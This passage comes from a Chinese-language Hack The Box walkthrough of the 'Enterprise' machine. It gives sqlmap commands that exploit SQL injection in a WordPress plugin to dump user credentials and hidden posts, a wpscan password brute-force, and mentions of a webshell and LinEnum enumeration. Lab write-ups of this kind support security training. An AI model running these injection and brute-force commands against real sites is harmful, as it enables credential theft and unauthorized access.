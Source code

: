 在这里，脚本还是使用了 / var/www/html/wp-config.php 配置，并具有与上述相同的功能，但附加了 2 条 if 语句，这些附加语句可对 sql 注入进行额外检查，地址：

```
http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1....
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPgeeE5bvej7ssMsfudRFic77GDNfCtMiaV1Wxv4RicKqjr48kKIv5YnLSqOR9wH6cTuZ0dibyJ3ibD4Vw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPgeeE5bvej7ssMsfudRFic7G7K0Q7lyL6VajqVby7EmIfic49kvqEKzmRvDkDYXSJaWQs3n8PNCiceg/640?wx_fmt=png)

```
sqlmap -u http://10.10.10.61/wp-content/plugins/lcars/lcars_db.php\?query\=1 --dbs
```

发现了数据库.... 继续 sql

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPgeeE5bvej7ssMsfudRFic72Bo2WEtNVO4wdXQichkRN4jN4fLoIXTgXoVBGicic1eMkmuUq2mXMLLicw/640?wx_fmt=png)

```
sqlmap -u http://10.10.10.61/wp-content/plugins/lcars/lcars_db.php\?query\=1 -D wordpress -T wp_users -C user_login,user_pass,user_email --dump --hex --threads 5
```

这里发现了 william.riker 用户信息... 但是我密码 john 爆破了，没有成功解密...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPgeeE5bvej7ssMsfudRFic7GggCQd3ic6dwbDOM2ia5Xnmoq21K7ulvt5SiaicYBXnvvicQlria83giaVg0g/640?wx_fmt=png)

```
sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --random-agent --batch --thread 10 -D wordpress -T wp_posts -C post_content --dump
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPgeeE5bvej7ssMsfudRFic7nWCE9NibvCQU05QIbs0Tj7tdicIsUED7ZXibEzvibalfJhJsuLeoNVQBIA/640?wx_fmt=png)

经过各种 sqlmap 注入... 在一篇文章中发现了四个密码信息.... 应该是隐藏文章，未发表的.. 扫出来了 (这里记得去掉 N）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPgeeE5bvej7ssMsfudRFic7FiazQGcG875fRxhrzcWUXrY2dvhBs7XSflPjvAkuJ4bNaBhgibyAmLKg/640?wx_fmt=png)

```
wpscan --url http://enterprise.htb --usernames william.riker --passwords passwd.txt
```

由于需要登陆 wordpress 博客，将四个密码创建文本，直接利用 wpscan 爆破即可...

结果发现了登陆的密码信息....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPgeeE5bvej7ssMsfudRFic7E4PDxNj2dJ0O8yvgBsHXGRy8NC40bjDMabibIft88GzRGvwHEuRvR3w/640?wx_fmt=png)

一句话 shell...（这里跳过了) 不懂得看前面文章....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPgeeE5bvej7ssMsfudRFic7ibCUdQaWEyeiaEC0xSkeGXPaRz3ASO1rddZhrknw3CZRU8CoiawDLjh0g/640?wx_fmt=png)

成功获得了 shell_www-data 权限....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPgeeE5bvej7ssMsfudRFic7lz7fN4fWRLKKGciaRRssCrS4A1KK6Xg6icunPfC796M9u9dG59iaXR5zQ/640?wx_fmt=png)

这里无法 wget 上传文件... 我利用本地监听 80 端口，直接执行 LinEnum 枚举了靶机...
